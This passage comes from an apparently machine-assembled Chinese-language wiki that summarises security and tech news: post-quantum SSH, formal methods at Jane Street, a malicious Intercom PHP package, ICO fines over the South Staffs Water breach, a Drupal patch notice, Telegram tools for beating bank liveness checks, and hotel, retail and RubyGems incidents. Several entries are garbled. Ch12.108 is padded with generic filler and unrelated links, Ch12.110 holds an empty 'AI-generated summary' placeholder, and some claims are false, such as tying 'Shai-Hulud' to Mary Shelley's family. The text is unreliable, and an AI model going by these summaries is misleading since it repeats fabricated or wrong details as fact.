1. **双角色安全架构**：key-holder agent 与 disposable runner 的分离，确保密钥持有者永远不接触原始页面内容
2. **浏览器原生安全复用**：完全依赖 V8 isolates/WebCrypto/WebAuthn，不自建加密或隔离代码
3. **P2P Agent 通信**：WebRTC 基础的去中心化 agent 间通信，无中心服务器依赖

## 相关实体

- [Agent Harness 工程框架](https://github.com/QianJinGuo/wiki/blob/main/concepts/harness-engineering-framework.md)
- [Computer Use Agent](https://github.com/QianJinGuo/wiki/blob/main/concepts/computer-use-agent.md)
- [Gemini 3.5 Flash Computer Use Agent Harness](https://github.com/QianJinGuo/wiki/blob/main/entities/gemini-35-flash-computer-use-agent-harness.md)
- [Agent 安全架构](https://github.com/QianJinGuo/wiki/blob/main/concepts/agent-security-architecture.md)

---

## Ch12.103 On Post-Quantum Security Adoption

> 📊 Level ⭐⭐ | 4.0KB | `entities/on-post-quantum-security-adoption.md`

# On Post-Quantum Security Adoption

Published Time: 2026-06-15

Markdown Content:
From Alex’s [blog post](https://alexwlchan.net/2026/post-quantum-blog/), I’ve learned that there are enough recent breakthroughs in quantum computing that I should take post-quantum cryptography seriously. [Google](https://blog.google/innovation-and-ai/technology/safety-security/cryptography-migration-timeline/) and [Cloudflare](https://blog.cloudflare.com/post-quantum-roadmap/) both set a target of 2029 for having their systems secure against quantum computers. Similarly, the [UK government](https://www.ncsc.gov.uk/guidance/pqc-migration-timelines) is targeting 2035.

The issue is that cryptography is built upon math problems that are difficult to solve. Quantum computers make solving some of these problems such as integer factorization and discrete logs easier. If someone has a quantum computer that can sufficiently solve those two problems, then they can likely decrypt many ciphertexts that were produced using [asymmetric cryptography](https://en.wikipedia.org/wiki/Public-key_cryptography) techniques (think public/private key-pairs). Wikipedia has a great article discussing [post-quantum cryptography](https://en.wikipedia.org/wiki/Post-quantum_cryptography) if you want to read more.

Given all that, if the cost isn’t too high then it’s not a bad idea to look at our current systems and see what we can make quantum-resistant today. Otherwise, we risk being vulnerable to [harvest now, decrypt later](https://en.wikipedia.org/wiki/Harvest_now,_decrypt_later) attacks. This is where an adversary stores encrypted packets until they have a computer powerful enough to break the encryption. You might wonder if encrypted packets from 5 years ago matter. Though if you’re like me, chances are you had to transmit personally identifiable information over the internet for jobs, housing, etc. In the US, it is [really difficult](https://www.ssa.gov/faqs/en/questions/KA-02220.html) to change your social security number.

We’ll explore three different protocols I rely on and how we can make them post-quantum resistant.

## SSH

OpenSSH implemented and made default post-quantum key agreement [back in April 2022](https://www.openssh.org/pq.html). At the time of writing, the `mlkem768x25519-sha256` scheme is used. That’s a mouthful but it essentially describes what the scheme is:

*   `mlkem`: [Module lattices](https://en.wikipedia.org/wiki/Lattice-based_cryptography)[key encapsulation mechanism](https://en.wikipedia.org/wiki/Key_encapsulation_mechanism) (also known as key-exchange)
*   `768`: Not sure what this means, sorry.
*   `x25519`: [Elliptic curve](https://en.wikipedia.org/wiki/Curve25519) used in the classical Diffie-Hellman key-exchange.
*   `sha256`: The hash function used to [combine the keys](https://datatracker.ietf.org/doc/draft-ietf-sshm-mlkem-hybrid-kex/) generated from ML-KEM and x25519 (see Section 2.4 of previous link).

As you might notice, this is a hybrid quantum/classical algorithm. This is a hedg

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/on-post-quantum-security-adoption.md)

---

## Ch12.104 Jane Street — 形式化方法与编程的未来

> 📊 Level ⭐⭐ | 3.9KB | `entities/jane-street-formal-methods-future-programming.md`

# Jane Street — 形式化方法与编程的未来

> Source: [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/jane-street-formal-methods-future-programming.md)

## 概述

Jane Street 工程师在 2026-06 发表的一篇立场文章，**核心论点是 Agent 编码时代改变了形式化方法（formal methods）的成本/收益结构**：随着 LLM 编写代码越来越快、Agent 自动执行 build/test loop，人工写的代码量增加 vs 验证时间预算未变 → 形式化验证从"奢侈品"重新成为"必要安全网"。

## 核心论点（v=7, c=7, v×c=49）

**关键 framing**: 文章提出"形式化验证的双重作用"——
1. **验证 Agent 生成的代码**: 防止 LLM 在无人监督下输出有 bug 的代码
2. **规范（spec）本身是 AI 时代的资产**: 形式化 spec 比非形式化文档更适合 Agent 推理

> "The specification *is* the asset — formal specs become the high-bandwidth interface between humans and AI agents."

**为什么现在变重要**：
- 代码量增速 >> 验证时间（Agent 可以一晚写 1000 行，PR review 仍需人力）
- 类型系统 + TLA+/Coq/Lean 等轻量形式化工具的成熟
- "Agent ↔ Spec" 工作流比 "Agent ↔ 自然语言" 更可证伪

## 关键洞察

1. **Spec 回归 = 程序验证 = Agent 时代的形式化复兴** — Jane Street 自己用 OCaml + formal specs 多年（反例：Mirage、async RPC stack）；现在这模式从 trading 扩展到 LLM 工作流
2. **代价结构变了** — 过去：spec 写起来贵（"为什么不用 Rust 类型系统凑合？"）；现在：spec 写起来对 Agent 而言极便宜（LLM 可以从形式化 spec 生成实现）
3. **不只是找 bug** — formal spec 在 Agent loop 中是"规约锚点"，可被回归测试、formal refutation、property-based testing 复用
4. **门槛降低** — Lean 4 + TLA+ 的开发者体验显著改善；Jane Street 指出一些 internal tool 已能让 trader 直接写 spec 而非代码

## 实践启示

- **形式化 spec 不再是"学术玩具"**: Agent 时代它成为"如何把自然语言意图转成可执行代码"的最佳中间层
- **类型 + 性质测试 + formal spec 是三段式**: 类型层面（TypeScript/Rust）+ property-based（fast-check）+ 形式化（Lean/TLA+）
- **从哪里入手**: 选最影响安全的边界（auth、payment、concurrency）写 spec；不要一上来对所有代码 formalize

## 与其他工作的关联

- [Claude Code 大型代码库 Harness](https://github.com/QianJinGuo/wiki/blob/main/entities/claude-code-large-codebase-harness-configuration.md) — 同主题 AI 编程 vs 验证
- [AI Friendly 架构](https://github.com/QianJinGuo/wiki/blob/main/entities/ai-friendly-architecture-design.md) — 形式化 spec 是 AI-friendly 的一种表达
- [Harness Engineering](https://github.com/QianJinGuo/wiki/blob/main/concepts/harness-engineering-framework.md) — spec 即 harness 的一种特殊形式

## 原文链接

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/jane-street-formal-methods-future-programming.md)

---

## Ch12.105 semgrep intercom php supply chain

> 📊 Level ⭐⭐ | 3.7KB | `entities/semgrep-intercom-php-supply-chain.md`

# Malicious Intercom PHP Package Mini-Shai-Hulud
Semgrep security research: malicious Intercom PHP package spreading Mini-Shai-Hulud attack via Packagist/Composer. Attack chain, IOCs, code-level analysis.    
**Source**: [raw article](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/semgrep-intercom-php-security.md) | **Review**: value=7 confidence=8    

## 深度分析
**PHP 供应链攻击的精细化演进**：    
1. **生态系统的精准定位**：攻击者选择 Intercom PHP 包（而非直接攻击框架本身），利用开发者对官方客户端库的信任——这类包名劫持（typosquatting/package renaming）是供应链攻击的低成本高回报路径    
2. **Composer 插件机制滥用**：通过 Composer 插件而非直接包投递实现持久化，这意味着恶意代码在 `composer install` 时即以安装者权限运行，而非依赖包的受限上下文    
3. **Mini-Shai-Hulud 命名含义**：Hulud 是弗兰肯斯坦怪物的作者 Mary Shelley 家族的文学作品中的沙漠蠕虫；这一命名暗示攻击者可能具有文化背景或特定叙事意图    
4. **Packagist 的中间人位置**：作为 PHP 的官方包索引，Packagist 一旦被污染，影响范围覆盖所有使用 Composer 的 PHP 项目——这是一种基础设施级别的信任滥用    
5. **Semgrep 的检测价值**：Semgrep 作为静态分析工具能够检测 Composer 插件的异常行为和恶意代码模式，说明代码安全扫描已成为供应链防御的必要环节    
PHP 生态的供应链攻击揭示了一个深层问题：Composer 的插件机制权限过大，缺乏沙箱隔离；包名验证完全依赖开发者肉眼识别而非加密签名验证。    

## 实践启示
- **Composer 安全性**：使用 `--no-plugins` 标志安装来源不明的包；审查 Composer 插件的 JSON 配置，拒绝在生产环境安装非必要的插件
- **包管理策略**：在 `composer.json` 中锁定精确版本而非使用 `*` 通配符；定期审查 `vendor/` 目录的变更
- **供应链安全检测**：使用 Semgrep 或同类 SAST 工具扫描依赖包中的已知恶意模式；建立 CI/CD 中的依赖审计流程
- **组织层面的包治理**：维护内部镜像/私有包源；制定白名单机制，仅允许来自受信任发布者的包安装
- **开发者教育**：定期培训开发者识别包名误植攻击（typosquatting）；强调使用完整的包 URL 而非简短包名

## 相关实体
- [semgrep intercom php security](https://github.com/QianJinGuo/wiki/blob/main/entities/semgrep-intercom-php-security.md)
- [rigged-game-scarcruft-compromises-gaming-platform-supply-chain-attack](https://github.com/QianJinGuo/wiki/blob/main/entities/rigged-game-scarcruft-compromises-gaming-platform-supply-chain-attack.md)
- [Semis Memo: Supply Chain Inheritance](https://github.com/QianJinGuo/wiki/blob/main/entities/semis-memo-supply-chain-inheritance.md)
- [Postmortem: TanStack npm supply-chain compromise | TanStack Blog](https://github.com/QianJinGuo/wiki/blob/main/entities/postmortem-tanstack-npm-supply-chain-compromise-tanstack-blog.md)
- [Amazon launches Supply Chain Services for businesses of all sizes](https://github.com/QianJinGuo/wiki/blob/main/entities/amazon-supply-chain-services.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/2026.md)

- [Semis Memo: Supply Chain Inheritance](https://github.com/QianJinGuo/wiki/blob/main/entities/citriniresearch-supply-chain-inheritance.md)
- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/security-landscape.md)

---

## Ch12.106 ICO fines Cl0p victim South Staffs Water over data breach

> 📊 Level ⭐⭐ | 3.7KB | `entities/computerweekly-ico-fines-cl0p-south-staffs-water.md`

> 来源：[原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/computerweekly-ico-fines-cl0p-south-staffs-water.md)

## 核心要点
- 英国 ICO 罚金 South Staffs Water，原因是 Cl0p 勒索软件攻击导致数据泄露
- Cl0p 团伙利用 MOVEit 漏洞攻击大量企业
- 水务公司被视为关键基础设施，数据泄露影响重大

## 深度分析
此次 ICO 对 South Staffs Water 的罚款案例揭示了几个关键问题：
1. **关键基础设施的脆弱性**：水务公司作为关键基础设施运营商，肩负着重大的数据安全责任。一旦遭受攻击，不仅影响自身运营，还可能危及公共服务供应。ICO 的罚款传递了一个明确信号——关键基础设施供应商必须达到更高等级的安全标准。
2. **供应链攻击的连锁反应**：Cl0p 勒索软件团伙通过 MOVEit 漏洞发动大规模供应链攻击，影响了全球数千家企业。South Staffs Water 作为受害者之一，体现了这类攻击的广泛破坏力。即使企业自身安全措施到位，仍然可能因为第三方软件漏洞而遭受波及。
3. **监管执法的持续高压**：ICO 对受害企业罚款而非仅追究攻击者，表明监管机构期望企业承担起主动防御的责任。这与"我是受害者就不应受罚"的传统观念形成对比，企业必须认识到：即使是被攻击的目标，预防措施不足同样会受到监管制裁。
4. **数据泄露的多重代价**：罚款只是直接成本之一。还包括事件响应费用、业务中断损失、声誉损害以及潜在的法律诉讼。关键基础设施行业尤其需要从 Cost of Data Breach Report 中汲取教训，提前做好防御规划。

## 实践启示
1. **关键基础设施企业必须实施纵深防御**：不能依赖单一安全层。即使如 MOVEit 这类看似可信的第三方软件，也可能成为攻击向量。企业需要对所有外部接入点实施严格访问控制，并持续监控供应链安全。
2. **建立完善的漏洞管理流程**：及时安装安全补丁是基础，但更重要的是建立对第三方软件依赖的全面清单，了解每个组件的潜在风险，并制定应急预案。
3. **关键基础设施运营商应主动进行合规审查**：定期对照 ICO/DPA 指南进行自我评估，确保数据保护措施与法律要求保持一致。特别关注特殊类别数据（健康、财务等）的保护。
4. **将供应链安全纳入整体安全战略**：对供应商进行安全评估，在合同中加入安全条款，并建立供应商安全事件响应机制。
→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/computerweekly-ico-fines-cl0p-south-staffs-water.md)

## 相关实体
- [ICO fines South Staffordshire £963K over 2022 breach](https://github.com/QianJinGuo/wiki/blob/main/entities/ico-fines-south-staffordshire-2022-breach.md)

---

## Ch12.107 Drupal to Release Urgent Core Security Updates on May 20, Sites Told to Prepare

> 📊 Level ⭐⭐ | 3.4KB | `entities/drupal-core-security-drupal-to-release-urgent-core-security.md`

## 核心要点
- Drupal 核心安全更新将于 2026 年 5 月 20 日 17:00-21:00 UTC 发布
- 影响所有受支持的 Drupal 版本（11.3.x, 11.2.x, 10.6.x, 10.5.x）
- Drupal 安全团队警告：漏洞严重，exploit 可能在数小时到数天内出现
- 无可用 workaround，必须在发布窗口期及时更新

## 深度分析
Drupal 此次安全更新的紧急程度体现在其发布的措辞中："exploits might be developed within hours or days"（漏洞利用可能在数小时或数天内被开发出来），这表明 Drupal 安全团队认为该漏洞的严重性足以引起快速响应。

**受影响的版本**：

- 11.3.x, 11.2.x（需升级到最新补丁版本）
- 10.6.x, 10.5.x（需升级到最新补丁版本）
- 11.1.x, 11.0.x（需先升级到 11.1.9）
- 10.4.x 及更早版本（需升级到 10.4.9）

**Drupal 7 不受影响**，但 Drupal 8/9 已停止维护，建议尽快迁移到 Drupal 10.6 或 11.3。

**EOL 版本处理**：对于仍在使用 Drupal 8.9 和 9.5 的站点，Drupal 提供了 best-effort 补丁，但不保证完全有效且可能引入其他问题。

## 实践启示
1. **立即准备**：在发布窗口前确认当前 Drupal 版本并测试升级流程
2. **预留时间**：5 月 20 日 17:00-21:00 UTC 期间预留时间用于更新和验证
3. **EOL 版本迁移**：仍在使用 Drupal 8/9 的站点应将迁移到 Drupal 10.6 作为紧急优先级
4. **备份验证**：更新前确认完整备份可用，包括数据库和文件
5. **增量升级策略**：建议先升级到受支持版本的最新的安全补丁，再计划后续的主要版本升级
## 相关实体
- [Introducing Deepsec Find And Fix Vulnerabilities In Your Code Base](https://github.com/QianJinGuo/wiki/blob/main/entities/introducing-deepsec-find-and-fix-vulnerabilities-in-your-code-base.md)
- [Funnel Builder Flaw Under Active Exploitation Enables Woocommerce Checkout Skimm](https://github.com/QianJinGuo/wiki/blob/main/entities/funnel-builder-flaw-under-active-exploitation-enables-woocommerce-checkout-skimm.md)
- [Cve 2026 20182 Unauthenticated Cisco Sd Wan Control Plane Compromise Via Vhub Au](https://github.com/QianJinGuo/wiki/blob/main/entities/cve-2026-20182-unauthenticated-cisco-sd-wan-control-plane-compromise-via-vhub-au.md)
- [Howanimagecouldcompromiseyourmacunderstandinganexiftoolvulnerabilitycve 2026 310](https://github.com/QianJinGuo/wiki/blob/main/entities/howanimagecouldcompromiseyourmacunderstandinganexiftoolvulnerabilitycve-2026-310.md)
- [A 0 Click Exploit Chain For The Pixel 10 When A Door Closes A Window Opens](https://github.com/QianJinGuo/wiki/blob/main/entities/a-0-click-exploit-chain-for-the-pixel-10-when-a-door-closes-a-window-opens.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/drupal-core-security-drupal-to-release-urgent-core-security.md)
- new york design week is here, may 14–20 - core77

---

## Ch12.108 Cyberscammers are bypassing banks’ security with illicit tools sold on Telegram

> 📊 Level ⭐⭐ | 3.3KB | `entities/2026-04-15.md`

# Cyberscammers are bypassing banks’ security with illicit tools sold on Telegram

## 相关实体

- [canvas hackers shinyhunters say their official domain was su](https://github.com/QianJinGuo/wiki/blob/main/entities/canvas-hackers-shinyhunters-say-their-official-domain-suspen.md)
- [canvas hackers shinyhunters say their official domain was su](https://github.com/QianJinGuo/wiki/blob/main/entities/canvas-hackers-shinyhunters-say-their-official-domain-was-suspended.md)
- [private fintech has quietly become bigger than public fintec](https://github.com/QianJinGuo/wiki/blob/main/entities/private-fintech-has-quietly-become-bigger-than-public-fintec.md)
- [private fintech has quietly become bigger than public fintec](https://github.com/QianJinGuo/wiki/blob/main/entities/private-fintech-has-quietly-become-bigger-than-public-fintec-569278.md)
→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/2026-04-15.md)

- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/mlops-training-inference.md)
## 深度分析

Cyberscammers are bypassing banks’ security with illicit tools sold on Telegram 涉及code领域的核心技术议题。
### 核心观点
1. The app asks him to upload a photo associated with the account, so he clicks on a picture of a 30-something Asian man.
2. Next, the app requests to open the camera for a video “liveness” check.
3. The scammer holds up a static image of a woman bearing no resemblance to the man who owns the account.
4. After a 90-second wait—as the app tells him to readjust the face inside the frame—he’s in.
5. These banking and crypto safeguards are supposed to confirm that an account belongs to a real person, and that the user’s face matches the identity documents that were provided to open the account**.

### 内容结构
- Cyberscammers are bypassing banks’ security with illicit tools sold on Telegram
- **Banks and butchers**
- **How criminals navigate a compliance maze**
- **A cat-and-mouse game**

### 技术要点

- **code架构**: 本文在code方向提出的设计理念与实现路径
- **工程挑战**: 实际落地中面临的关键问题与应对策略
- **data趋势**: 相关技术演进方向与新兴范式
### 关联实体

- [Karpathy 最新访谈从 Vibe Coding 到 Agentic Engineering](https://github.com/QianJinGuo/wiki/blob/main/entities/karpathy-最新访谈从-vibe-coding-到-agentic-engineering.md)
- [Karpathy Vibe Coding Agentic Engineering](https://github.com/QianJinGuo/wiki/blob/main/entities/karpathy-vibe-coding-agentic-engineering.md)
- [你不知道的 Agent原理架构与工程实践 V2](https://github.com/QianJinGuo/wiki/blob/main/entities/你不知道的-agent原理架构与工程实践-v2.md)
- [Agentops Operationalize Agentic Ai At Scale With Amazon Bedr](https://github.com/QianJinGuo/wiki/blob/main/entities/agentops-operationalize-agentic-ai-at-scale-with-amazon-bedr.md)
- [两万字详解Claude Code源码核心机制](https://github.com/QianJinGuo/wiki/blob/main/entities/两万字详解claude-code源码核心机制.md)
- [龙虾装上了可以用来干啥分享下我的 Openclaw 多智能体团队搭建经验 V2](https://github.com/QianJinGuo/wiki/blob/main/entities/龙虾装上了可以用来干啥分享下我的-openclaw-多智能体团队搭建经验-v2.md)

## 实践启示
1. **工程落地**: code领域方案需关注可观测性、可维护性和成本效率
2. **技术选型**: 根据场景选择合适的技术栈，避免过度设计或盲目追新
3. **持续迭代**: 建立数据驱动的反馈闭环，持续优化系统表现
4. **风险管控**: 引入新技术需评估对现有系统稳定性的影响，做好降级预案

---

## Ch12.109 Hackers accessed BWH Hotels reservation system for months

> 📊 Level ⭐⭐ | 3.2KB | `entities/securityaffairs-bwh-hotels-breach.md`

> -> [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/securityaffairs-bwh-hotels-breach.md)
→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/securityaffairs-bwh-hotels-breach.md)

## 深度分析
**酒店业数据泄露的长期潜伏特征与影响**：
1. **超长潜伏期**：攻击者在 2025 年 10 月至 2026 年 4 月（长达 6 个月）持续访问预订系统——如此长的 dwell time 表明这不是机会主义攻击，而是有组织的持续性入侵
2. **数据类型的敏感组合**：被泄露的信息（姓名+联系方式+地址+特殊需求）组合后可被用于高可信度的社会工程攻击；特殊需求字段（如饮食禁忌、宗教需求）进一步暴露个人隐私
3. **支付数据未泄露的相对庆幸**：BWH 明确说明支付数据不在受影响系统中——这限制了直接金融欺诈的风险，但 Reservation 数据本身已足够支持钓鱼攻击
4. **多品牌架构扩大攻击面**：BWH Hotels 运营 Best Western、WorldHotels、Sure Hotels 等多个品牌，统一预订系统的多品牌整合意味着单次入侵可影响多个品牌客户
5. **通知延迟的隐患**：4 月 22 日发现入侵，5 月 12 日才公开披露——近 20 天的延迟可能让攻击者利用泄露信息实施二次欺诈
这次泄露的数据模式（个人信息而非支付数据）对大多数用户来说难以察觉，但恰恰是钓鱼和冒充诈骗的最佳原材料。

## 实践启示
- **酒店预订系统安全**：对 web 应用定期进行渗透测试；监控异常 API 调用模式（如非工作时间的批量查询）；强化 web 应用与核心预订数据库之间的访问控制
- **数据最小化原则**：预订系统应仅存储运营必需的数据；特殊需求字段应作为可选项而非必填，减少敏感数据暴露面
- **用户侧防护**：收到酒店相关邮件/短信时应验证发件人域名和链接；不要通过非官方渠道提供额外个人信息
- **企业安全事件响应**：发现入侵后应尽快通知受影响用户；延迟披露会损害品牌信任并可能面临监管处罚（GDPR 等）
- **支付隔离**：支付相关信息应与预订系统物理隔离存储，使用独立的 PCI DSS 合规支付网关

## 相关实体
> [主题导航](https://github.com/QianJinGuo/wiki/blob/main/moc/cybersecurity-privacy.md)

- [Why I'm leaving GitHub for Forgejo](https://github.com/QianJinGuo/wiki/blob/main/entities/why-im-leaving-github-for-forgejo.md)
- [Vietnam to develop domestic cloud so it can ditch risky overseas operators for government workloads](https://github.com/QianJinGuo/wiki/blob/main/entities/vietnam-to-develop-domestic-cloud-so-it-can-ditch-risky-overseas-operators-for-g.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/shinyhunters-7-eleven-data-breach.md)

- [Vietnam to develop domestic cloud so it can ditch risky overseas operators for government workloads](https://github.com/QianJinGuo/wiki/blob/main/entities/vietnam-domestic-cloud.md)

---

## Ch12.110 ICO fines South Staffordshire £963K over 2022 breach

> 📊 Level ⭐⭐ | 3.2KB | `entities/ico-fines-south-staffordshire-2022-breach.md`

## Summary
*(AI-generated summary - TODO: manually review)*

## Key Points
-     

## 深度分析
South Staffordshire 水务公司被 ICO 罚款 96.3 万英镑，根源是 2022 年遭受网络攻击导致数据泄露。这起事件折射出关键基础设施（CI）行业在 OT/IT 融合时代面临的**安全债务积累问题**：水务公司的 IT 系统相对消费互联网公司更为陈旧，但攻击面的扩大速度远超安全投入的增长速度。    
ICO 此次执法的特别之处在于：**罚款对象是公用事业机构而非科技公司**，这标志着数据保护监管的覆盖范围已从传统「数据控制者」扩展到关键基础设施运营者。英国《国家网络安全战略》明确将水务列为「关键国家基础设施」，因此 ICO 对其施加的勤勉义务标准远高于一般商业企业。    
从法律层面看，ICO 援引的是 GDPR 第 32 条（处理安全义务）和第 33 条（ breach notification）——虽然 South Staffordshire 在发现 breach 后 72 小时内完成了通知，但 ICO 的处罚重点在于**预防措施不足**而非响应迟缓。这意味着合规重点应从「出事后快报告」转向「平时厚防御」。    
另一个值得关注的细节是：Cl0p 勒索软件 gang 是 2022 年攻击水务公司的主要威胁行为者之一，该组织通过利用 MOVEit 漏洞造成了大规模供应链攻击。这说明公用事业机构的安全短板往往不是自身系统的「0day」，而是**供应链第三方软件的已知漏洞未及时修补**。

## 实践启示
1. **关键基础设施应执行「纵深防御 + 定期渗透测试」双轨制**：不能依赖单一安全边界防护，OT 与 IT 网络必须严格分区，对暴露在互联网的第三方组件（如文件传输软件、VPN、远程管理工具）建立强制补丁管理 SLA    
2. **数据泄露响应计划应区分「监管通知」和「内部处置」两条时间线**：72 小时 GDPR 通知义务是硬性要求，但内部应急响应应在接报后 1 小时内启动，避免监管介入后发现内部处置混乱    
3. **供应链安全应纳入供应商准入审计**：Cl0p/MOVEit 案例表明，水务公司对供应商安全等级的评估标准应与自身等同，不能以「这是外部服务」为由转移责任，ICO 明确指出数据控制者对整个处理链条负有最终责任    

## Related

## 相关实体
> [主题导航](https://github.com/QianJinGuo/wiki/blob/main/moc/cybersecurity-privacy.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/2026.md)

- [ICO fines Cl0p victim South Staffs Water over data breach](https://github.com/QianJinGuo/wiki/blob/main/entities/computerweekly-ico-fines-cl0p-south-staffs-water.md)
- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/data-infrastructure.md)

---

## Ch12.111 中国用户安全高性能访问海外 Bedrock

> 📊 Level ⭐⭐ | 3.2KB | `entities/user-security-high-performance-bedrock-aws-china.md`

# 中国用户安全高性能访问海外 Bedrock

> **Background**：基于 AWS China Blog 原创技术文章（2026-06-26），系统梳理中国用户访问海外 Amazon Bedrock 的三类场景与端到端私有化接入架构。

## 核心问题

中国开发团队访问海外 Amazon Bedrock 时面临三大挑战：

1. **网络体验不稳定** — 国际出口带宽、延迟、丢包不可控，流式补全和 Agent 多轮推理对链路质量敏感
2. **数据在公网传输** — 提示词包含企业敏感信息（RAG 文档、Skill、代码片段），公网传输存在监听风险
3. **缺少端到端私有通道** — 需要可控、独享、私密的链路

## 三类场景识别

| 场景 | 典型用户 | 接入特征 | 核心诉求 |
|------|---------|---------|---------|
| A：固定办公场所 | 企业数据中心/总部 | 有固定网络出口，可对接专线 | 最高稳定性与私密性 |
| B：远程/移动用户 | 远程办公、出差 | 可拨入企业 VPN | 沿用私有通道 |
| C：无 VPN 条件 | 临时、外部协作 | 无专线、无 VPN | 安全可控灵活接入 |

## 三条路径解决方案

### 路径 1：专线（DX / SD-WAN）直连 — 场景 A

固定办公场所通过 AWS Direct Connect 或 SD-WAN 建立专线连接，流量全程走私网。

### 路径 2：Client VPN 回传 — 场景 B

远程用户通过 AWS Client VPN 接回数据中心，复用专线链路。

### 路径 3：海外 EC2 代理 TLS 透传 — 场景 C（兜底）

确无 VPN 条件时，使用海外 EC2 代理做 TLS 透传。

**三条路径共同点**：最终都经 VPC Interface Endpoint 走 AWS PrivateLink，进入 AWS 后全程私有。

## 关键架构要素

- **VPC Interface Endpoint** — 所有路径的最终入口，确保 AWS 内部流量不暴露公网
- **PrivateLink** — AWS 私有链接技术，提供端到端加密和隔离
- **流量分类** — 按接入位置和移动性划分三类场景，每类对应独立路径
- **兜底策略** — TLS 透传代理作为最后手段，但仍通过 PrivateLink 进入 AWS

## 与其他 AWS 网络方案的差异化

本文聚焦**跨境 AI 推理场景**（Bedrock 流式补全、Agent 多轮推理），与一般的企业上云网络架构有本质区别：

- 对延迟和抖动更敏感（流式 token 逐字输出）
- 数据敏感度更高（提示词含企业核心知识）
- 需要端到端私有（不能有任何公网段）

## 相关主题

- AWS Direct Connect — 专线接入
- AWS Client VPN — 远程接入
- VPC Endpoint / PrivateLink — AWS 私有链接
- Amazon Bedrock — 海外 LLM 推理服务

---

## Ch12.112 ShinyHunters hack 7-Eleven: franchisee data and Salesforce records exposed

> 📊 Level ⭐⭐ | 3.1KB | `entities/shinyhunters-7-eleven-data-breach.md`

## 核心要点
- ShinyHunters 黑客组织攻击了 7-Eleven 特许经营商，暴露了大量特许经营数据
- 被泄露的数据包括 Salesforce 记录
- ShinyHunters 以大规模数据泄露闻名，曾泄露多家公司数据

## 深度分析
ShinyHunters 的攻击路径揭示了特许经营体系中的一个典型安全盲区：品牌总部与加盟商之间的安全水位严重不对等。7-Eleven 作为franchisor， Salesforce 记录了大量加盟商的业务数据（订单、营收、供应商信息），但特许经营商往往缺乏与企业级安全标准匹配的防御能力。
此次泄露的数据结构暗示攻击者并非随机选择目标，而是对 SaaS 数据模型（尤其是 Salesforce 的多租户架构和数据驻留机制）有深入了解。这与 ShinyHunters 此前攻击 AT&T、Microsoft 等大型企业的模式一脉相承：他们的核心能力不是 0day 漏洞利用，而是对 API 配置错误和凭证管理的精准把握。
从数据危害角度看，Salesforce 加盟商记录一旦流出，可被用于：供应链诈骗、竞争对手情报收购、以及针对加盟商的定向钓鱼攻击。加盟商通常规模较小，安全意识薄弱，收到伪装成 7-Eleven 官方的钓鱼邮件时几乎无法辨别。

值得注意的是，ShinyHunters 的后续行动（包括 [Canvas LMS 攻击事件](https://github.com/QianJinGuo/wiki/blob/main/entities/shinyhunters-canvas-domain-suspended.md)）表明该组织正在扩大 SaaS 平台的攻击面，并将运营基础设施从 clearnet 向 Tor 转移，以规避执法压力。

## 实践启示
**对于 SaaS 平台方**：必须将加盟商/合作伙伴的数据隔离作为一等安全需求。Salesforce 的 Sharing Rules 和 Profile/ Permission Set 机制需要最小权限原则重新审计——特许经营数据不应因为「同一 Salesforce 实例」就被默认品牌方和加盟商都能访问。
**对于加盟商和小型企业**：依赖外部 SaaS 并不意味着安全责任外包。即便使用托管平台，仍需强制开启 MFA、定期审计第三方应用授权、并且不要将所有业务数据寄托在单一平台上。
**对于安全团队**：ShinyHunters 的攻击模式说明数据泄露的主要入口已从「攻破边界」转向「利用 API 配置和凭证」。传统的网络边界防护不足以防御这类攻击，需要对 API 调用日志实施持续监控并建立异常检测基线。
→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/shinyhunters-7-eleven-data-breach.md)

---

## Ch12.113 Temporarily disabling new user registrations

> 📊 Level ⭐⭐ | 3.0KB | `entities/temporarily-disabling-new-user-registrations.md`

> -> [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/temporarily-disabling-new-user-registrations.md)

## 核心要点
- 来自 newsletter 的高质量技术文章

## 深度分析
RubyGems 这次事件是一个典型的"开源基础设施遭受 DDoS + spam 攻击"的案例，虽然没有造成服务中断（gem 安装和推送对现有用户正常），但攻击者利用注册功能批量创建 bot 账号并推送恶意包，说明开源包管理平台的供应链安全是一个持续性的攻击面。
几个值得注意的细节：第一，攻击者在注册环节发起，说明人机验证（CAPTCHA）或更严格的注册审核机制是必要的——但这也意味着对正常开发者会有摩擦，RubyGems 选择了"先关注册，等 WAF 和 rate limiting 上线再重开"的务实策略。第二，攻击者推送了 500+ 恶意包且全部被 yank，说明 RubyGems 的安全响应速度还是不错的，但"事后再 yank"和"事前阻止"之间存在时间窗口，供应链攻击在这个窗口内已经可以造成影响。
Adrian Wong 在另一篇文章（sovereign cloud 事件）中的观察在这里也适用：RubyGems 作为关键开源基础设施，其运营方对安全事件的响应方式（关闭注册 vs 实时拦截）会直接影响大量下游开发者的日常工作。这是一个典型的"基础设施杠杆效应"——一个看似小的安全决策，影响面远超运营团队的预估。

## 实践启示
- **对你的 CI/CD 链路做 audit**：如果你的项目依赖 RubyGems 作为 gem source，这次事件提醒你需要检查：你的 CI 是否锁定了 gem 版本（而非每次都拉最新）、是否有 hash verification、以及是否有内部 gem mirror 作为 fallback
- **关注 registry 健康度**：RubyGems 的事件（500+ 恶意包被 yank）说明即便是有安全意识的平台也难以做到完全事前防御。你的供应链安全策略应该假设"包可能在某个时间窗口内是恶意的"，而不是假设"platform 不会让恶意包上架"
